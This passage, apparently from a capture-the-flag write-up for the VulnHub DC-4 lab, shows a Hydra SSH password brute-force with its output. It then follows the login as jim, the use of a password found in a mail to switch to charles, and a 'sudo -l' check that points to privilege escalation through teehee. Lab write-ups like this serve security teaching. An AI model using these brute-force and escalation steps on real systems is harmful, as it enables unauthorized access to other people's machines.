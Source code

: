 ```
$ hydra -l jim -P old-passwords.bak 192.168.2.104 ssh
[22][ssh] host: 192.168.2.104   login: jim   password: jibril04
```

`jim`'s `SSH` password is `jibril04`. Now with this info, we can login to `SSH` as `jim`.

### SSH
After logging into `SSH` as `jim`, we are informed that we have a mail. Reading it shows us that it is from `charles` 
and that he has sent us his password; `^xHhA&hvim0y`.

```
$ ssh jim@192.168.2.104
jim@192.168.2.104's password:

You have mail.

jim@dc-4:~$ echo p | mail
Mail version 8.1.2 01/15/2001.  Type ? for help.
"/var/mail/jim": 1 message 1 unread
>U  1 charles@dc-4       Sat Apr 06 21:15   27/715   Holidays
Message 1:
From charles@dc-4 Sat Apr 06 21:15:46 2019
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is: ^xHhA&hvim0y

See ya,
Charles

Saved 1 message in /home/jim/mbox
```

With `charles`'s password in our hands, we can login as `charles`. After logging in as `charles`, we'll run `sudo -l`; 
which will display the commands `charles` can run.

```
jim@dc-4:~$ su charles
Password:

charles@dc-4:/home/jim$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```


[DCAU]:                 https://twitter.com/DCAU7
[Login]:                /images/2019-09-12-vulnhub-dc_4/Login.png
[Admin Panel - 1]:      /images/2019-09-12-vulnhub-dc_4/Admin%20Panel%20-%201.png
[Admin Panel - 2]:      /images/2019-09-12-vulnhub-dc_4/Admin%20Panel%20-%202.png
[Admin Panel - 3]:      /images/2019-09-12-vulnhub-dc_4/Admin%20Panel%20-%203.png
[Burp Suite - 1]:       /images/2019-09-12-vulnhub-dc_4/Burp%20Suite%20-%201.png
[Burp Suite - 2]:       /images/2019-09-12-vulnhub-dc_4/Burp%20Suite%20-%202.png
[Burp Suite - 3]:       /images/2019-09-12-vulnhub-dc_4/Burp%20Suite%20-%203.png
[GTFOBin]:              https://gtfobins.github.io/gtfobins/tee/#sudo